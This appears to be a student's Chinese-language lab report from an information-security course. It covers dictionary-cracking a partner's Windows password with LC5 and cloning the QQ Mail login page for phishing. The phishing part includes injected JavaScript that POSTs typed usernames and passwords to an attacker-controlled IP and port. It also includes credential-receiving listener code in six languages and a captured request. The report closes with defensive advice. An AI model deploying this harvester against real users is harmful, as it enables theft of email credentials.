# 口令攻击和钓鱼攻击

1、实验说明

口令攻击和钓鱼攻击是生活中两种较为常见的攻击方式， 通过对攻击过程的复现， 能够让学生对其有直观的认识， 进而思考相应的防范措施。

2、实验目的

（1 ）能够了解实验规范和实验所需的编程环境

（2 ）能够理解社会工程学在口令攻击中的作用， 掌握设计安全口令的方法

（3 ）能够掌握钓鱼攻击技术和相应的防范手段

（4 ）培养公民意识， 提高社会责任感，积极向社会普及信息安全知识

# 练习 1 Windows口令破解

字典破解是口令攻击的一种常用方式， 是指破解者通过对用户的了解，猜测其可能使用某些信息作为密码，例如其姓名、生日、电话号码等，同时结合 对密码长度的猜测，利用工具来生成密码破解字典。

## 基本操作

（1 ）两人一组，相互为对方计算机新增账户并设置密码，并向对方提供一 定的提示信息。为了达到实验效果，用户口令不要设置得过于复杂。

计算机右键，管理    ，创建新用户



（2 ）根据对方所给的提示，并结合自己日常的了解猜测可能设置的密码， 生成密码字典。

（3 ）进入实验平台，单击工具栏“字典生成器”按钮，启动“字典生成器” 。 选择“生日”标签页，输入的年份与月份信息应尽量包含步骤(1) 中用到的生日日 期，在“生成字典”标签页中确定字典文件存放的路径以及新用户口令位数，最 后生成字典文件。

（4 ）单击工具栏`LC5`按钮，启动LC5口令破解工具。选择`Session`（会话）｜`Session Options…`（会话选项）菜单项，在弹出的`Auditing Options For This Session`对话框中选中`Dictionary Crack`项的`Enabled`，取消其它项的`Enabled`。单击`Dictionary List`（字典列表）按钮，导入步骤(2)中生成的字典文件。返回LC5主界面，选择`Session`｜`Import…`（导入）菜单项，在弹出的`Import`对话框中导入本地用户列表，选择`Session`｜`BeginAudit`（开始审计）菜单项，开始字典破解用户口令。



## 思考与总结

（1 ）总结设计安全口令的因素，以及应如何设计安全的口令。

- 增加密码长度和样式，不短于6位，使用大小写字母、数组、字符组合
- 避开个人信息，不要使用生日、手机号、车牌号等，实在想使用可以用身边人的信息
- 定期修改密码
- 避免个人信息泄露
- 避免同一密码重复使用


# 练习 2 QQ邮箱的钓鱼攻击

从社会工程学的角度来说，往往由于用户的疏忽大意，不小心访问了错误 的网站，而该网站的页面与正常网站并无差别，用户在输入个人私密信息后， 用户的敏感信息便被非法的窃取。

## 钓鱼

1、构造钓鱼页面

（1 ）打开 https://mail.qq.com/ ，右键快捷菜单保存 QQ 邮箱首页，保存网页的全部内容， 如图所示。






（2 ）用文本编辑器打开文件夹中的 xlogin.html 文件，定位到登录按钮  （login_button）代码处，为其添加单击事件。同时，在`<script>`区域中添加单击click事件响应函数， 将得到的账号和密码通过 HTTP/POST 方法发送至目标服务器，并将其中的 IP 地址修改为实验所用主机的 IP 地址， 如图所示。

在代码中我们可以找到 `<input >`标签，这是一种用于为基于 Web 的表单创建交互式控件的HTML `<input>` 元素，而其又同时指定了type为`submit`，表明这是用于提交表单的按钮。

```js
 onclick="saveAccount()"
```



接下来编写 `saveAccount()`函数，该会在按钮点击时间时触发，其是通过id取值，随后建立HTTP请求将信息发送到指定位置。通过浏览器调试我们可以发现，id为'u'的正是第一个输入框，同样，id为'p'的是第二个输入框。



```js
function saveAccount() {
	// 通过 id 获取元素值
	var user = document.getElementById("u").value;
	var passwd = document.getElementById("p").value;
	// 创建XMLHttpRequest 对象
	var httpRequest = new XMLHttpRequest();
	// 建立一个 HTTP 异步请求
	httpRequest.open('POST', 'http://XXX.XXX.XXX.XXX:9090', true);
	// 设置HTTP请求头部 C..参数的值为ap...
	httpRequest.setRequestHeader("Content-type", "application/x-www-form-urlencoded");
	// 	发送请求
	httpRequest.send('user=' + user + 'pwd=' + passwd);
}
```

<center>
    
    <br>
    <div style="color:orange; border-bottom: 1px solid #d9d9d9;
    display: inline-block;
    color: #999;
    padding: 3px;">为登录按钮添加单击事件和响应函数</div>
</center>
## 接收

2 、接收钓鱼所得的账号和密码（分档）
（1 ）第一档：编写网络服务端程序， 接收并显示钓鱼页面所发送的账号和密码， 编程语言不限， C 、Java 、C# 、Python 均可， 系统运行环境不限。

### Go

提供的几种语言都是比较常见的，那么我们先使用Go语言实现，如果使用jetBrain系列产品可能会比较慢，我们可以直接在命令行运行。

```go
package main
import (
	"bufio"
	"fmt"
	"io"
	"log"
	"net"
)

func main() {
	ln, err := net.Listen("tcp", ":9090")
	if err != nil {
		panic(err)
	}

	conn, err := ln.Accept()
	if err != nil {
		log.Fatal("get client connection error: ", err)
	}
	br := bufio.NewReader(conn)
	for{
		data, err := br.ReadString('\n')
		if err == io.EOF{
			break
		}
		fmt.Printf("%s", data)
		fmt.Fprintf(conn, "OK\n")
	}
	conn.Close()
}
```



### C/CPP

如果你使用CLion 要在CMakeLists.txt文件中添加`link_libraries(ws2_32)`

```cpp
#include <stdio.h>
#include <stdlib.h>
#include <WinSock2.h>
#pragma comment(lib, "ws2_32.lib")  //加载 ws2_32.dll
#define BUF_SIZE 1024

//变量声明
WSADATA wsd;
SOCKET sServer; //用于监听
SOCKET sClient; //实现与客户端通信
int retVal;
SOCKADDR_IN addrsServ{}; // C语言就去除{}
char buf[BUF_SIZE];    //用于接收数据

int main(){
    //初始化
    if (WSAStartup(MAKEWORD(2, 2), &wsd) != 0)
    {
        printf("WSAstartup failed!\n");
        return 0;
    }

    //监听
    sServer = socket(AF_INET, SOCK_STREAM, IPPROTO_TCP);
    if (INVALID_SOCKET == sServer)
    {
        printf("socket error!\n");
        WSACleanup();
        return 0 ;
    }
    printf("TCP socket Success!\n");
    
    // bind 设置地址
    addrsServ.sin_family = AF_INET;
    addrsServ.sin_addr.s_addr = inet_addr("192.168.43.161");
    addrsServ.sin_port = htons(9090);
    addrsServ.sin_addr.S_un.S_addr = htonl(INADDR_ANY);
    int sSreveraddlen = sizeof(addrsServ);
    //绑定地址
    retVal = bind(sServer, (const struct sockaddr *)&addrsServ, sizeof(SOCKADDR_IN));
    if (SOCKET_ERROR == retVal)
    {
        printf("bind failed!\n");
        closesocket(sServer);
        WSACleanup();
        return 0;
    }
    printf("bind Success!\n");
    //监听 listen
    retVal = listen(sServer, 1);
    if (SOCKET_ERROR == retVal)
    {
        printf("listen failed!\n");
        closesocket(sServer);
        WSACleanup();
        return 0 ;
    }
    printf("listen Success!\n");

    //接收数据
    SOCKADDR_IN addrcClient{}; // C语言就去除{}
    int cClientaddlen = sizeof(addrcClient);
    sClient = accept(sServer, (struct sockaddr *)&addrcClient, &cClientaddlen);
    if (INVALID_SOCKET == sClient)
    {
        printf("accept failed!\n");
        closesocket(sServer);
        closesocket(sClient);
        WSACleanup();
        return 0;
    }
    printf("perfect!\n");
	// 阻塞等待 一直接收
    ZeroMemory(buf, BUF_SIZE);
    retVal = recv(sClient, buf, 1024, 0);
    if (SOCKET_ERROR == retVal) {
        printf("recv failed！");
        closesocket(sServer);
        closesocket(sClient);
        WSACleanup();
        return 0;
    }
    printf("\nMessage form server: %s\n", buf);
}
```

运行效果，发现成功将用户名密码发送出来。



### Java

也可以使用Java监听，但不知为何，Java很长一段都处于阻塞状态，接收完标头后很久才接收数据，后来发现这是read()方法当读取完数据之后就开始阻塞，但还要一直等到返回-1才能结束。

```java
package com.tcp.listen;

import java.io.*;
import java.net.ServerSocket;
import java.net.Socket;

public class Listen {
    public static void main(String[] args) throws IOException {
        try (ServerSocket ss = new ServerSocket(9090);
             Socket s = ss.accept();
             InputStream is = s.getInputStream();
             InputStreamReader isr = new InputStreamReader(is);
             BufferedReader br = new BufferedReader(isr);) {

            for (int i = 0; i < 20; i++) {
                System.out.println(br.readLine());
            }
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
}
```



### C#

```c#
using System;
using System.Net;               // 引入这两个命名空间，以下同
using System.Net.Sockets;
using System.Text;

namespace ConsoleAppListen
{
    class Program
    {
        static void Main(string[] args)
        {
            const int BufferSize = 8192;    // 缓存大小，8192字节
            Console.WriteLine("Server is running ... ");
            IPAddress ip = new IPAddress(new byte[] {192, 168, 43, 161});
            TcpListener listener = new TcpListener(ip, 9090);

            listener.Start(); // 开始侦听
            Console.WriteLine("Start Listening ...");

            // 获取一个连接，中断方法
            TcpClient remoteClient = listener.AcceptTcpClient();

            // 获得流，并写入buffer中
            NetworkStream streamToClient = remoteClient.GetStream();
            byte[] buffer = new byte[BufferSize];
            int bytesReadLen = streamToClient.Read(buffer, 0, BufferSize);

            // 获得请求的字符串
            string msg = Encoding.UTF8.GetString(buffer, 0, bytesReadLen);
            Console.WriteLine("Received: {0}", msg);
        }
    }
}
```



### Python

```python
import socket
# 创建流式套接字
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
# 监听端口
s.bind(('192.168.43.161', 9090))
# 最大连接数量
s.listen(5)
print('Waiting for connection...')

while True:
    # 接受一个新连接
    sock, addr = s.accept()
    print('Connect Success!')
    # 创建新线程来处理TCP连接:
    data = sock.recv(1024)  # 接受的数据
    print(data.decode())  # 将数据进行解码
```



### PHP

```php
<?php
$ip = '192.168.43.161';
$port = 9090;
//创建socket
$socket = socket_create(AF_INET,SOCK_STREAM,SOL_TCP);
//把socket绑定在一个IP地址和端口上
socket_bind($socket,$ip,$port);
//监听由指定socket的所有连接
socket_listen($socket,4);
while(true){
    //接收一个Socket连接
    $sk = socket_accept($socket);
    // 获得客户端的输入
    $buf = socket_read($sk, 2048);
    echo $buf;
    //关闭socket
    socket_close($sk);
}
?>
```



## 验证

3 、实验验证

（1 )用浏览器打开保存的 QQ 邮箱首页，填写账号和密码， 然后单击登录按钮， 观察服务端程序所接收到的数据。

```json
POST / HTTP/1.1
Host: 192.168.43.161:9090
Connection: keep-alive
Content-Length: 19
Pragma: no-cache
Cache-Control: no-cache
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.75 Safari/537.36
Content-type: application/x-www-form-urlencoded
Accept: */*
Origin: null
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8

user=123456&pwd=123
```

我们可以发现其内容正是此次HTTP POST请求的标头



再加上我们编写的**用户名**和**密码**。

该过程本应将保存的 QQ 邮箱首页所有文件部署到 Web 服务器上， 并设置 一个相近的域名。 考虑到实验实施和重点操作情况，以在本地打开的方式完成 实验验证。

## 思考

4 、思考与总结

谈谈自己对钓鱼攻击的认识， 以及如何防范这类攻击。

- 不要点击陌生的连接，尤其是steam等平台
- 在日常生活中，大多数钓鱼信息通过邮箱发送，不要点击陌生人发来的邮件
- 使用正规浏览器，谨慎查看域名是否正确，要看主域名，忽略子域名
- 不要无视浏览器的安全警告

